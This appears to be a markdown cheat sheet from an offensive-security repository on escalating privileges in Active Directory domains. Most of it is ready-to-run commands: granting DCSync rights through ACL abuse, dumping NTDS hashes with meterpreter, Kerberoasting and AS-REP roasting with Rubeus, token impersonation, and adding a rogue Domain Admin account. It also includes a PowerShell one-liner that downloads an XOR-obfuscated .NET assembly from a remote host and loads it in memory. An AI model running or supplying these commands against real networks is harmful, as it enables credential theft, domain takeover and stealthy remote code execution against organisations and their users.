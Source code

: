 # Domain escalation

## Tools

- [Bloodhound](https://github.com/BloodHoundAD/BloodHound) with [Sharphound injestor](https://github.com/BloodHoundAD/SharpHound3) or [bloodhound-python injestor](https://github.com/fox-it/BloodHound.py)
- [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit) (PowerView)
- [RSAT](https://download.microsoft.com/download/1/D/8/1D8B5022-5477-4B9A-8104-6A71FF9D98AB/WindowsTH-RSAT_WS_1709-x64.msu)
> After installing RSAT, you can go to "Users and Computers AD =&gt; View =&gt; Advanced"

## ACLs
Get ACL

```bash
Get-DomainObjectAcl -Identity <username> -ResolveGUIDs ? { $_.SecurityIdentifier -Match $(ConvertTo-SID <domain>) }
```

add DCSync

```bash
Add-DomainObjectAcl -TargetIdentity "DC=<domain>,DC=<local>" -PrincipalIdentity <username> -Rights DCSync
```

dump ntds 

```bash
meterpreter > dcsync_ntlm <DOMAIN>\<user>
```

## Impersonation Token 

### Tools
- [Rubeus.exe](https://github.com/GhostPack/Rubeus) (DOTNET CSHARP)
- [Tokenvator](https://github.com/0xbadjuju/Tokenvator) (DOTNET CSHARP)
- [Incognito.exe](https://github.com/FSecureLABS/incognito) (Meterpreter extension)
- [TokenManipulation.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

Reflectively load DOTNET CSHARP Assembly within Powershell (or Cobalt, SilentTrinity etc.) if you cant do it through your C2 Infra :

```powershell
$wc=New-Object System.Net.WebClient;$wc.Headers.Add("User-Agent","Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0");$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;$wc.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials
$k="xxxxxxx";$i=0;[byte[]]$b=([byte[]]($wc.DownloadData("https://xxxxx")))|%{$_-bxor$k[$i++%$k.length]}
[System.Reflection.Assembly]::Load($b) | Out-Null
$parameters=@("arg1", "arg2")
[namespace.Class]::Main($parameters)
```

### Kerberos impersonate

Find domain admin accounts 

```bat
net group "Domain Admins" /DOMAIN
net group "Admins du domaine" /DOMAIN
```

Find if one is loggedon somewhere :

```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --loggedon-users
bloodhound.py -d <domain> -u <user> -p <password> -ns <IP-DC> -c LoggedOn
```

Impersonate kerberos token

```bat
# Rubeus
Rubeus.exe klist
Rubeus.exe dump
Rubeus.exe kerberoast /outfile:roasted_hashes.txt
Rubeus.exe asreproast /outfile:asrep_hashes.txt
Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI>

#TokenManipulation
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"


# Incognito loaded by Meterpreter
load incognito 
list_tokens -u
impersonate_token <domain>\\<user> # Double slash is mandatory !

# Incognito standalone executable
Incognito.exe

# CrackMapExec using kerberos ticket
export KRB5CCNAME=<user>.ccache 
sudo cme smb <target> --kerberos -x whoami
```

Create new Domain Admin account 

```bat
net user add <user> <pass> /domain
net group "Domain Admins" <user> /add
```

Check if a computer has the TrustedForDelegation flag enabled

```powershell
Get-ADComputer -Identity <computer_name> -Properties TrustedForDelegation
```

### Manual testing

- [secureauth.com](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/)

### Delegation Explained

- [specterops.io](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)